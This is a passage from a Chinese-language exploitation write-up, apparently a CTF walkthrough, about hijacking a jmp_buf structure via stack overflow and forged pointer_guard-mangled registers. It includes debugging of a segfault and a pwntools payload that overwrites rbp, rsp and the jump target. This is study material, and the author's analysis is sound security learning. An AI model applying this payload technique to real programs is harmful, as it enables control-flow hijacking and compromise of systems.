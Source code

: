 - 跟进发现会进入\_longjmp\_unwind,然后进入\_pthread\_cleanup\_upto，此时会有个一个mov rax,qword ptr fs:\[0x10\]，后面又有一个mov r12,qword ptr \[rax+0x698\]就会导致段错误

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-1a044d604a061bf8e3323316de104e99124a3e4d.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-77e28d6209fe33233fb3c3d832770b06e393387f.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-65884b78f97d507f2ea92ec08b838ce895708d31.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-34b361d7d6447b4f5ff9241f6a6d060f334255b4.png)

- 由此就可以想到是我们泄露pointer\_guard时，覆盖了其为a，所以导致赋值不正确，如图也可以看到确实被覆盖了（0x7ffff7da2e10是jmp\_buf的地址）

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-cf2e3c90839ac9d0999e2459a6b868b1b4d7141a.png)

- 做出以下修改即可,保证fs:\[0x10\]的值是一个可写的地址

```python
payload = b"&pass=v3rdant".ljust(0x200, b'a')

regs = flat({
    0x8:ptr_g(buffer+0x28, pointer_guard),  #rbp
    #rsp刚好指向rop_payload的地方
    0x30:ptr_g(buffer+0x28, pointer_guard), #rsp
    0x38:ptr_g(ret_addr, pointer_guard),    #rdx的值，jmp rdx
    }
)

payload += regs

payload = payload.ljust(2848-0x20, b'a') #保证fs:[0x10]的值是一个可写的地址即可
payload+= p64(buffer+0x400)*4
print(len(payload))

p.send(payload)
```

- 至此就打通了

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-fb912bc87fc0bf8e6969da869e6a476a428ff3af.png)

一些感想
----

基于jmp\_buf结构体的攻击，打这个的感受就和打堆溢出的house系列的wide\_data结构体一样

就是针对某个结构体，以及其相关函数的漏洞进行攻击，关键点在于要发现一开始那个栈溢出，这样才会想到是否能够劫持jmp\_buf结构体然后进一步劫持流程

这种通过劫持结构体，进而控制程序流程在二进制漏洞里面还是不少的，自己在复现qemu相关的题目也是遇到过相同的手法